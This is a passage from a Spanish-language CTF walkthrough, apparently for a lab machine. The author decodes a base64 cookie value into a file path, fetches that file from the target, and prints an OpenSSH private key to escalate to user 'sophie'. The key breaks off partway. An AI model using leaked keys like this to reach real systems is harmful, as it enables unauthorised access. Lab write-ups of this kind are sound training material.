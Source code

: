 Si inspeccionamos la pagina y nos vamos a la seccion de `Cookies` veremos esto interesante.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-22 092434.png" alt=""><figcaption></figcaption></figure>

Vemos que hay un codigo codificado en `base64` y si lo decodificamos veremos esto:

```shell
echo 'cG9pc29uZWRnaWZ0LnR4dA==' | base64 -d
```

Info:

```
poisonedgift.txt
```

Veremos lo que parece ser un archivo de una ruta web, por lo que vamos a probarlo.

## Escalate user sophie

```
URL = http://<IP>/poisonedgift.txt
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsruS5/Cd7clZ+SJJj0cvBPtTb9mfFvoO/FDtQ1i8ft3IZC9tHsKP
ut0abGtFGId9R0OB1ONB+iOMK5QNpoCXda3RDXJQ9oRCWjd2DxqRAyvdThhxq6wYJSATpa
l7M9UemrK/aDuZTAqLUSA9Zvpx474TiWXBMjdGqN2K/+SCf/DqIyknDLDRexe0Lc0IsNCV
/O39j4XJprHXMQZNaiokSuzV3VlXAYYBcTIK2Id/EMerpQdiNjMGvVIuBxfbF9/MGhEnR+
1fxxPTHZnKw5snlb47ynWtahCuZVVQr0b+c5z6MXVSJKP8LY0m8clQqUCwbPbCJnRJRCwh
TJY/xz0cu4H+Lbtx38iUv6NjiPXsvd/0FPjmNWrIwA3m4yYQL1dmSCX7JZAqYV5axI8box
Z4oHJP5dHADWdzic2XSqDSpIMxnDhlLh02ksCfNbkNkqbsiw/AO6IxnToPLH7jVjoYxnmA
y97klEGvt2UqIugfUV1p6j1sybTcM59ZUbo16i47AAAFiNnGZRvZxmUbAAAAB3NzaC1yc2
EAAAGBALK7kufwne3JWfkiSY9HLwT7U2/Znxb6DvxQ7UNYvH7dyGQvbR7Cj7rdGmxrRRiH
fUdDgdTjQfojjCuUDaaAl3Wt0Q1yUPaEQlo3dg8akQMr3U4YcausGCUgE6WpezPVHpqyv2
g7mUwKi1EgPWb6ceO+E4llwTI3Rqjdiv/kgn/w6iMpJwyw0XsXtC3NCLDQlfzt/Y+Fyaax
1zEGTWoqJErs1d1ZVwGGAXEyCtiHfxDHq6UHYjYzBr1SLgcX2xffzBoRJ0ftX8cT0x2Zys
ObJ5W+O8p1rWoQrmVVUK9G/nOc+jF1UiSj/C2NJvHJUKlAsGz2wiZ0SUQsIUyWP8c9HLuB
/i27cd/IlL+jY4j17L3f9BT45jVqyMAN5uMmEC9XZkgl+yWQKmFeWsSPG6MWeKByT+XRwA
1nc4nNl0qg0qSDMZw4ZS4dNpLAnzW5DZKm7IsPwDuiMZ06Dyx+41Y6GMZ5gMve5JRBr7dl
KiLoH1Fdaeo9bMm03DOfWVG6NeouOwAAAAMBAAEAAAGBAICL9cGJRhzCZ0qOhXdeDAw6Mi
1MyGX/HQ4Nqkd4p8FbA4hCr+mipzsPULTPhdd5gvnhLJyPgmFEdcjV5+drrwM9KxDPujlC
sHIwV2HPiqJMRxOm8wI0eP0ij97jATArRKKgkpeF3eBZ6Q9E78SDtavFhkmYfJYAOXq0NA
eNMuqPu+Xj8CjpdxBf4P/b6jc5HdbW2DoEUB7q40loLf+AJbAZnEthuPjoh1sBUdmfwhyw
btv3boRquJsrYt1JJ***qguwyDSLtXj4Wuxa7jZcLLSAuTHS+zWKwZA/8J1IpZAZhgkVXJ
fC8ZbG0M63VEQjuGXCuIY3cq1iQuXERhhbRuJ1XZT8Hki5YBaU/f5Wp7bId25Aps4ktljU
r67S9mwwppQ8dVmP6CsENgc3ivpWCDWC4PZojTgZ4qhWMpjCaUxe1Hi7GuvlRJNLL4A7Fx
kTV9nBcLlGfqzvVUPeEAZgXz4IxCx8KdTrDr/oXWw4hjqtuyRKveMjmKQ6HADFl7SMCQAA
AMBz8rqB0Mfb4U34LeA1kdZLFsGX3AZqahTDjEcZYAPI/A5Dt5iw0LcGRgrHuPccS5fA3E
GT2FceoMX2ccE5fEVydxcj2vcnPIQ01P6fxjVXpA7QDnJ2At2LLPcD9CuuSt/HCrp/Bmjv
IUFvjSgKl5nYGPfoeitIdFdM72liQ+0814iNzxNl5WuNeiJ+XAGuXqJT02gAxMRQPiJ67e
sMzJyVvM69B0kGkyAXTO9fcfq+X2JaCz3hId6Iwr68Mxe/L6MAAADBAOEpkHeU8xn5MHwG
79vpd6Cg7p1UqfDuvMOgvZe6eIOE3FIb1nWpCqjq9P0Myv8aCWYhwgKr3SNIWkZ1u+0NR9
43cZO7FWa4/DvI5gX6dlrcGy1BVoDuMWIWDw9bgXpQiGQSkQOQ3J/RPWH/xT5LQbrBVTK8
C8r4lrWDwWLMgk1Wbef6U0NBuY1+J4Hafsz2Psei3yFsjjA3djonb8JF+RnHRoO8TeJlj4
RjbkXTlhsGkdR77PNZmkZ2KVwn2VzsPwAAAMEAyzYixNTrJ4vPtjUluq7+O9qGwqpbl3i0
```